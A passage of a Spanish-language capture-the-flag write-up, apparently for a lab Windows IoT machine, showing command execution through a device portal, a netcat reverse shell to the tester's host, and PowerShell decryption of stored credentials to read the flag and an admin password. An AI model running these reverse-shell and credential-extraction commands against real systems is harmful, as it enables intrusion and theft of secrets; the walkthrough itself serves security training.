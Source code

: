 Nos connectamos al portal de la web a la url 
```bash
 http://10.10.10.204:8080 
```
. Aqui buscamos manera de ejecutar comandos como en Cualquier gestor
de contenido o panel de administracion. Y encontramos en el menu Processes un link llamado **Run command**.

Probamos con 
```bash
 echo %USERNAME% 
```
 y ejecuta el comando como el usuario app. Creamos un reverseshell.

1. Nos ponemos en escuchar por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el ncat previamente uploadeado en el systema

    ```bash
    C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.8 443
    ```

Ya somos el usuario app y intentamos ejecutar la operacion cryptografica para leer la flag.

```bash
cd C:\Data\app
powershell
(Import-CliXml -Path user.txt)
(Import-CliXml -Path user.txt).GetNetworkCredential()
(Import-CliXml -Path user.txt).GetNetworkCredential().password
```

Ya tenemos la flag.

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
dir
```

Aqui vemos un fichero un poco raro llamado iot-admin.xml y el contenido tambien es un secret string.

```bash
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential().password
```

Ya vemos un password para el usuario admin. Intentamos connectar al Windows Device Portal con el usuario administrator y
podemos connectarnos. Esto significa que vamos a hacer lo mismo que con el usuario app.

1. Nos ponemos en escuchar por el puerto 443
